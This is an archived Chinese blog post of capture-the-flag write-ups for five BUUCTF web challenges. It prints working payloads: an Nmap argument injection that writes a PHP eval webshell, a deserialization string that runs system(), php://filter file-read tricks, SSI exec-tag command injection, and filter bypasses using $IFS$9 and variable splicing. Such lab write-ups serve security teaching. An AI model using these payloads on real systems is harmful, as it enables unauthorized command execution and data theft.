







<!--yml
category: 未分类
date: 2022-04-26 14:35:08
-->

# BUUCTF__web题解合集（七）_风过江南乱的博客-CSDN博客

> 来源：[https://blog.csdn.net/TM_1024/article/details/108055984](https://blog.csdn.net/TM_1024/article/details/108055984)

## 前言

*   天天盼望开学
*   哭，电脑重启没保存，写的3篇直接没了。。。

## 题目

### 1、[网鼎杯 2020 朱雀组]Nmap

```
<?php  echo “1111111111111 ”;  ?>

<? echo “222222222222 ”;  ?>

<% echo“333333333333 ”;  %>
(注释：这种写法在php配置中默认关闭了的，所以不能输出一行3.如果要正常输出，需要配置php.ini文件。在配置文件中找到asp_tags=off ,将off改为on。改动配置文件后需要重启apache。)

<script language=”php”> echo“444444444444 <br>” </script> 
```

*   也就是说，在 Liunx 下开启了 `short_open_tag = On` 就能使用上面第2种标签方式。很显然，题目就是开启了的。

*   但同时文件名也有个php，可以用`phtml`在文件上传的时候经常用到。

*   所以，我们的payload就是

    ```
    ' <? eval($_POST["a"]);?> -oG 1.phtml ' 
    ```

*   上传，蚁剑连接，运行虚拟终端执行`cat /flag`成功解题。

### 2、 [网鼎杯 2020 朱雀组]phpweb

*   重写。。。真是***。

*   首先打开它会自动刷新，抓包能看到两参数，形式是一个函数名一个函数参数，可以获取当前时间，同时页面也有当前时间的回显。
    

*   参数修改函数参数，发现页面回显也会改变。同时把函数名改了也就没回显了。

*   那么试试其它函数名+参数。比如说命令执行函数`system`、`exec`等，发现有回显提示过滤。

*   不能直接命令执行就换个思路读源码，测试发现`readfile`、`file_get_contents`常见文件读取函数没被过滤，所以可以用它来读取已知的`index.php`。很容易会去读常见的flag文件，比如说flag、flag.php、flag.txt。显然，是不存在的。

    ```
    func=readfile&p=index.php 
    ```

*   可以得到以下源码，可以看到的确有一个过滤规则过滤了很多函数。同时认识[一个函数](https://www.php.net/manual/zh/function.call-user-func.php)`call_user_func`。也就是执行我们传入的函数和函数参数的一个函数

```
<?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
    function gettime($func, $p) {
        $result = call_user_func($func, $p);
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];

    if ($func != null) {
        $func = strtolower($func);
        if (!in_array($func,$disable_fun)) {
            echo gettime($func, $p);
        }else {
            die("Hacker...");
        }
    }
    ?>
</p> 
```

*   分析整个调用过程，有两个地方能调用`call_user_func` 函数，第二个就是查看过滤，合法就执行。第二个是有一个类`Test` 有一个魔术方法`__destruct()` 能调用它。
*   看起来很多余，其实就是解题的关键，魔术方法`__destruct()` 在反序列化的时候会被调用，就能执行`call_user_func` 函数，同时反序列化函数`unserialize`不在黑名单中。就暗示我们就是得构造一个。
*   所以，我们最终就是构造一个序列化字符串，对`func`和`p`赋值传入来覆盖原有的值，同时因为这里没有黑名单验证，就能利用`system`函数实现命令执行。
*   同时，因为不知道flag文件的位置，所以，我们`find`找一下。

```
<?php
class Test {
    public $p = "find / -name flag*";
    public $func = "system";
}
$c=new Test();
echo serialize($c);
?> 
```

```
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:18:"find / -name flag*";s:4:"func";s:6:"system";} 
```




*   就这样，整个过程不能说复杂，但做的时候就是会想不到。

### 3、[BSidesCF 2020]Had a bad day

*   首先打开，就能注意到url里有一个可变变量`category`，点击会发生变化，尝试随便输入。看是随机出图不太可能是sql注入。

*   当出现报错时，看到`include`，就想到文件包含，同时看报错的文件名。多了个`.php` 看来是预先写好拼接文件后缀名的。
    

*   文件包含，试试PHP伪协议，所以，我们尝试读取`index.php`源码。

    ```
    ?category=php://filter/read=convert.base64-encode/resource=index 
    ```

*   base64解码得到源码，就看PHP代码部分。

```
<?php
				$file = $_GET['category'];

				if(isset($file))
				{
					if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){
						include ($file . '.php');
					}
					else{
						echo "Sorry, we currently only support woofers and meowers.";
					}
				}
				?> 
```

*   可以看到，有一个过滤，`category`只能为woofers、meowers、index。满足条件就能包含文件。

*   同时,猜测flag的位置，不难找到有一个 flag.php(猜一下，访问有响应)。所以，最终目的就是用伪协议读取 flag.php。

*   第一个想到的就是目录穿越，所以直接以下，解码就行。

    ```
    ?category=php://filter/read=convert.base64-encode/resource=meowers/../flag 
    ```

*   但网上我看到的都是伪协议嵌套，没想到还有这种操作。原理是前面的

    ```
    ?category=php://filter/read=convert.base64-encode/woofers/resource=flag 
    ```

*   最后想说，函数自己多想想。

### 4、[BJDCTF2020]EasySearch

*   首先打开一个登录框。首先就会测试一下sql注入，不过都没反应。也没有其它提示。这时候很可能就是源码泄露。
*   扫一下。字典好的能扫到`index.php.swp`，显然我没扫到，死在了第一步。而`.swp`的生成是因为文件编辑比如说`vi`时的异常退出，[了解一下](https://blog.csdn.net/qq_42200183/article/details/81531422)
*   再来看源码

```
<?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];
		$content = uniqid().$random;
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
			***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
			echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";

    }else
    {
	***
    }
	***
?> 
```

*   注意到两个地方，第一个就是满足以下时，才能登录成功。

    ```
    substr(md5($_POST['password']),0,6)==6d0bc1 
    ```

*   第二个就是生成了一个.`shtml`文件。且文件名是随机生成的。

*   再来看看怎么才能满足第一个条件，虽然我知道可以穷举，但我不知道改怎么来穷举怎么来写。。。贴一个大师傅的脚本，这写的很强。后面找到两篇其它的关于md5截断验证的，[文章1](https://www.cnblogs.com/yesec/p/11297568.html)和[文章2](https://www.cnblogs.com/yesec/p/11300841.html)

```
import hashlib

a= "0123456789"
for o in a:
    for p in a:
        for q in a:
            for r in a:
                for s in a:
                    for t in a:
                        for u in a:
                            b = str(o)+str(p)+str(q)+str(r)+str(s)+str(t)+str(u)
                            md5 = hashlib.md5(b.encode('utf-8')).hexdigest()
                            if ((md5[0:6])=='6d0bc1'):
                                print b 
```

*   运行得到2020666、2305004、9162671三个数。 选一个登录。用户名就没有要求随便填一个。登录上去却发现什么也没有，抓包找到我们刚刚注意到的`.shtml` 文件，访问发现有页面回显。
    

*   显示了我们随便输入的用户名，接下来又是知识盲区。`SSI注入漏洞`。

*   大多没描述是怎么来确认的，于是，我去百度了一下`.shtml`文件后缀名。发现了一点联系，可以看看[百度词条](https://baike.baidu.com/item/shtml/594921?fr=aladdin)的描述。
    

*   再来看什么是[SSI注入漏洞](https://www.cnblogs.com/endust/p/11826210.html)

*   就是在用户名那里，因为这类似xss，是以标签的形式来起作用的，所以我们同样的直接输入就行。

*   同时它有直接支持命令执行的标签

    ```
    <!–#exec cmd="文件名称"–> 
    ```

*   所以，wp三连，先`ls`查看根目录，没找到flag文件，然后`ls ../`返回查看上一目录，发现 flag文件，访问得到 flag。

    ```
     <!--#exec cmd="ls"-->
     <!--#exec cmd="ls ../"-->
     <!--#exec cmd="cat ../flag_990c66bf85a09c664f0b6741840499b2"--> 
    ```

*   我的方法是，都可以命令执行了。当然直接`find`一下再直接`cat`就行

    ```
    <!--#exec cmd="find / -name flag*"-->
    <!--#exec cmd="cat /var/www/html/flag_990c66bf85a09c664f0b6741840499b2"--> 
    ```

*   步骤都是登录时，在用户名输入上述标签，得到生成的`.shtml`访问得到信息。因为每次生成的都不同，所以需要返回多次登录。

*   总结：第一次接触`SSI注入漏洞`。了解了相关概念及用法。

### 5、[WUSTCTF2020]朴实无华

*   首先打开什么都没，就考虑源码泄露，扫一下就能找到常见的`robots.txt`。得知一个`fAke_f1agggg.php` 访问是假的，但必然有用，抓包一下，在响应头里看到一个`fl4g.php`，访问得到源码。但中文乱码，但也能做。

*   大概浏览一下，得绕过前面的`if`来最后命令执行。

*   先看第一个，需满足。

    ```
    intval($num) < 2020 && intval($num + 1) > 2021 
    ```

*   先看一下[函数介绍](https://www.runoob.com/php/php-intval-function.html)。注意到下面两条，同样的参数`1e10`，值却大不相同。

    ```
    echo intval(1e10);                    // 1410065408
    echo intval('1e10');                  // 1 
    ```

-网上大部分的wp都是这么写的。 但是呢，我实际复现时结果都会是一样的


> php具有弱类型，== 在进行比较的时候，会先将字符串类型转化成相同，再比较
> 转换的规则为，若该字符串以合法的数值开始，则使用该数值，否则其值为0

```
 $md5==md5($md5) 
```

*   所以我们只需要找到一个字符串，加密是`0e`开头，加密后是`0e`就行。比较是就是 0=0 相等。可以写脚本跑，但可能需要好久，直接给`0e215962017` ，可以积累。

*   所以第二步就是

    ```
    ?num=0x1233&md5=0e215962017 
    ```

*   最后就是命令执行，过滤了cat和空格。

*   空格很简单，之前说过的`$IFS$9` 代替空格就行。而cat可以用反斜杠`ca\t` 或者变量拼接`a=ca;b=t;$a$b`代替。
    

*   所以最后。成功解题。

    ```
    ?num=0x1233&md5=0e215962017&get_flag=a=ca;b=t;$a$b$IFS$9fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag 
    ```

*   总结：在源码泄露时，找到源码也很重要，常见的文件名可以记一下，常见隐藏在如请求头、响应头、cookie、源代码注释也要注意。

## 最后